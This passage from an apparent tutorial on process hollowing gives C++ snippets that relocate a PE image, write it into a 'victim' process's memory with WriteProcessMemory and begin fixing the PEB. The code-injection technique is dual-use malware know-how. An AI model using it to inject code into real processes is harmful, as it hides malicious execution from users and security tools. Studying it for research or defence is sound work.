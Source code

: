 ``` cpp
if ((DWORDLONG)lpRemoteAddress != dwlOldImageBase) {
    if (!applyRelocation(
        dwlOldImageBase,
        (DWORDLONG)lpRemoteAddress,
        lpLocalAddress
    )) {
        printf("Can't relocate image\n");
        TerminateProcess(processInfo.hProcess, 1);
        return FALSE;
    }
}
```

### VI. Copy image from local to remote


Now that we have relocate everything in the local virtual space, we just need to write the entire local image to the remote address in the victim's address space using **WriteProcessMemory**.


``` cpp
SIZE_T writtenBytes = 0;

if (!WriteProcessMemory(
    processInfo.hProcess, 
    lpRemoteAddress, 
    lpLocalAddress, 
    imageSize, 
    &writtenBytes
)) {
    printf("Can't write local image to remote process image\n");
    TerminateProcess(processInfo.hProcess, 1);
    return FALSE;
}
if (writtenBytes != imageSize) {
    printf("Can't write local image to remote process image\n");
    TerminateProcess(processInfo.hProcess, 1);
    return FALSE;
}

VirtualFree(lpLocalAddress, imageSize, MEM_FREE);
```


After writing the local image, we must make sure to free the region because we called **VirtualAlloc** earlier and it won't be freed by itself.


### VII. Fix up CONTEXT and PEB


Remember that the virtual base address in the PEB of the victim process contains the old base address of the victim's image.


